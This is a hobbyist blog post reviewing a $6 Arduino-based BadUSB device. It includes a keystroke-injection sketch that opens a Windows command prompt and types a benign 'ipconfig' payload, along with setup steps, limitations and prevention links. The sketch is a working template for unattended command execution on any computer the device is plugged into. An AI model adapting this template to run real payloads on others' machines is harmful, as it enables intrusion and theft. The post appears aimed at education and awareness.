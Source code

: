 ```yaml
---
layout: post
permalink: /posts/hacking-tools/hardware/badusb
title: "Des's review: BadUSB - an Arduino based keystroke"
date: 2020-08-15 21:46
tags: review badusb arduino
description: "Badusb is a dangerous USB that allows attackers to inject malicious command-line either locally or remotely."
---
```


## Introduction

Badusb is a dangerous USB that allows attackers to inject malicious command-line either locally or remotely. With this Badusb device, the attacker is able to steal sensitive information, download files and even destroy your computer. In addition, this tool works on Windows, Linux, and macOS which made almost all the computer/IoT devices vulnerable to this attack.

Recently, I brought a $6 Badusb (Built with Arduino micro) from China.

![badusb](/assets/images/hacking-tools/hardware/2020-08-15-badusb/1.jpg)

Of course, they usually came with a different variation, some contain micro SD card slot, some with WiFi-module (ESP-12E/F) and even a combination of two.

![variation](/assets/images/hacking-tools/hardware/2020-08-15-badusb/2.jpg)

The main microcontroller used for this USB is usually labeled with ATmega32U4. This microcontroller can be found on Arduino Micro and Arduino Leonardo. The reason is, [the controller supports the keyboard function](https://www.arduino.cc/reference/en/language/functions/usb/keyboard/) while the conventional ATmega328 (Arduino UNO) does not support the function.

In this article, I'm going to perform a simple command-line injection.

## Installation

The tool that you required before the attack:

Software:<br>
1. [Arduino IDE](https://www.arduino.cc/en/main/software)
1. Window 10 (as the victim)

Hardware:<br>
1. Badusb (Any Badusb with ATmega32u4)

After acquiring all the necessary tools, launch your Arduino IDE program. The IDE supports C/C++ but with a small twist but I'm not going to cover it. As long as you are good at C/C++, it should be a piece of cake. For your information, the two functions, **setup()** and **loop()** are the backbones in coding an Arduino device such that,

```c++
void setup()
{
  //The function only run once
}

void loop()
{
  //The function is a loop similar to while(1)
}
```

The **setup()** function only runs once while the **loop()** function executes infinitely, just like **while(1)**. Usually, we initialize all the parameters in setup() function e.g calibrating a temperature sensor. On the other hand, we used loop() function to collect the data e.g measure the temperature. However, this is not the case for this scenario as we are going to use the microcontroller to interact with the software (Executing command line) instead of hardware. We only need to execute the script once.

That's all for the short briefing on the Arduino programming. Next, copy the following code and compile it (The compile button is located at the top left)

```c++
#include <Keyboard.h>

void press_enter()
{
  Keyboard.press(KEY_RETURN); //Press enter key
  Keyboard.release(KEY_RETURN); //Release enter key
  delay(500);
}

void setup()
{
  //Nothing...
}

void loop()
{
  Keyboard.press(KEY_LEFT_GUI); //Press windows key
  delay(500);
  Keyboard.press('r'); //Press 'r' key
  Keyboard.releaseAll(); // Release to execute "wins + r", which is run.
  delay(500);
  Keyboard.print("cmd"); //Type 'cmd'
  press_enter();
  Keyboard.print("ipconfig"); // Payload
  press_enter();
  while(1); // Important! It stops loop execution.
}
```

Check the serial com port of the device.

![device](/assets/images/hacking-tools/hardware/2020-08-15-badusb/3.png)

I got mine on COM 8. Set up the device (Usually a micro) and COM port on the Arduino IDE using the tool tab.

![ide](/assets/images/hacking-tools/hardware/2020-08-15-badusb/4.png)

After that, upload the program into the device and you should see the effect.

![the gif](/assets/images/hacking-tools/hardware/2020-08-15-badusb/5.gif)

## Limitation

The problem with the Arduino based Badusb is the system must have an Arduino driver installed which made the attack less flexible.

## Prevention

Rest assured, there is a way to prevent the BadUSB attack. Year and year, the researcher named dave has published a paper on how to prevent the BadUSB attack on the Linux system but it is best for you to check [the post](https://davejingtian.org/2015/12/03/defending-against-malicious-usb-firmware-with-goodusb/) and [the github](https://github.com/daveti/GoodUSB/tree/master/kernel).

As for windows users, the best prevention is to [set up policy](https://heimdalsecurity.com/blog/badusb-exploit-vulnerability-fix/) while plug in a new USB. Of course, this method is quite troublesome in the future when you wanted to install a new HID or network driver. At least it saves you from the attack.

## Des's review

### The pro
1. Portable and affordable
1. Easy to code with since it working with Arduino IDE
1. Performing remote keystroke logging providing WiFi SoC available on the badusb

### The con
1. Driver is needed to perform the attack
2. Easily spotted by the victim compared to backdoor program
3. Close-quarter attack where attacker have to plug-in the USB

Des's score: 3/5 (A good piece of hardware but poor flexibility)

## Conclusion

That's all for the Badusb introduction tool. For the next coming post, we will discuss more on remote Badusb attack.

